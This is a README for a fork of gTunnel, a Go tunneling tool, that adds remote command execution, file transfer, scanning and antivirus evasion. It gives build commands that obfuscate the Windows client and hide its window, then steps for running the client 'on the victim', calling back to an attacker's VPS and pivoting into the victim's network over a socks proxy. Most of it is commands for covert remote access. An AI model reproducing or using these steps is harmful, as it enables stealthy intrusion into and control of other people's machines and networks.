 # gTunnel Fork

Original:
> A TCP tunneling suite built with golang and gRPC. gTunnel can manage multiple forward and reverse tunnels that are all carried over a single TCP/HTTP2 connection. I wanted to learn a new language, so I picked go and gRPC. Client executables have been tested on windows and linux.

My changes + additions:
- Added gRPC tunnel for tasks (cmd exec / file transfer / file upload)
- High efficient TCP scanner
- Traffic stats
- AV evasion

# Dependencies
- [go 1.17+](https://golang.org/doc/install)
- [garble](https://github.com/burrowers/garble) used to obfuscate windows binaries

# Generate Server Binary

This is the binary to be used in the VPS

```bash
cd gServer
CGO_ENABLED=0 go build .
```

On the attacker's VPS, setup self-signed certs

```bash
mkdir tls && openssl req -new -newkey rsa:4096 -x509 -sha256 -days 365 -nodes -out tls/cert -subj "/C=/ST=/L=/O=/CN=" -keyout tls/key
```

# Generate Windows Client Binary

```bash
x=$PWD
serverPort=443
serverIP=8.8.8.8
outputFile=gClient.exe

seed=`cat /dev/urandom| head -1 | md5sum| base64`
cd gClient && GOROOT_FINAL=/dev/null GOOS=windows GOARCH=amd64 garble -seed=$seed -tiny -literals build -ldflags "-X main.serverAddress=$serverIP -X main.serverPort=$serverPort -s -w -H=windowsgui" -o gClient.exe && cp gClient.exe $x/$outputFile && upx $x/$outputFile
```

# How to setup a simple socks5 tunnel

1. Run `./gServer` on the attacker's VPS as root (with permissions to open 443/tcp)
2. Execute `gclient.exe` on the victim
3. Gain a new connection on the `gServer` prompt
4. Execute `use newMachine-0000`
5. Execute `socks 1080` to start a socks proxy on the victim machine
6. Execute `addtunnel local 1080 127.0.0.1 1080` - you will now have a socks5 proxy at 127.0.0.1:1080 on the attack VPS
7. Setup SSH tunnel from attackers actual machine to get access to the socks5 port on the VPS with `ssh -L 1080:127.0.0.1:1080 root@attack_vps -N -v`
8. Use `proxychains` with `127.0.0.1 1080` on the attacker's userland machine to interact with the victim's network

